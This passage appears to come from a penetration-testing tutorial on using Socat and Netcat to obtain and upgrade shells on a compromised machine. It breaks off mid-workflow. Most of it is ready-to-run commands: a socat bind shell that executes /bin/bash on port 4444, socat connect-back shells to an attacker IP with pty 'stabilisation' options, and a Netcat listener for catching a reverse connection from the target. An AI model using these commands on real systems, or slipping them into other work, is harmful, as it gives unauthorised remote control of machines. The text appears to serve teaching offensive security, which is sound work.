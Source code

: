Socat is a more advanced networking tool compared to Netcat. It supports various protocols and provides more robust features for handling network connections.

### Basic Socat Usage

- **Setting Up a Listener**:

  ```bash
  socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
  ```

  This command sets up Socat to listen on port 4444 and execute `/bin/bash` for incoming connections.

- **Connecting to a Listener**:

  ```bash
  socat TCP:<target-ip>:4444 EXEC:/bin/bash
  ```

  This command connects to a Socat listener on the target IP and port 4444, executing `/bin/bash`.

### Socat Shell Stabilisation

Socat can create a more stable and interactive shell compared to Netcat. Here’s a command for achieving this:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

- **Options Explained**:
  - `pty`: Allocates a pseudoterminal, stabilising the shell.
  - `stderr`: Ensures error messages are shown.
  - `sigint`: Passes Ctrl+C commands to the subprocess.
  - `setsid`: Runs the process in a new session.
  - `sane`: Normalises the terminal.

---

### Using Netcat and Socat Together

Netcat is initially used to establish a basic connection to the compromised system, which provides a non-interactive shell. Once this basic connection is established, the socat command is used to upgrade the session to a fully interactive terminal. This is achieved by linking to the listener running on the attacker's machine and creating an interactive bash session with additional options to ensure terminal stability and proper handling of input/output.

#### Example Workflow

1. **Establish a Basic Connection with Netcat**:

   On the attacker's machine, set up a listener:

   ```bash
   nc -lvp 4444
   ```

   On the target machine, connect back to the attacker:
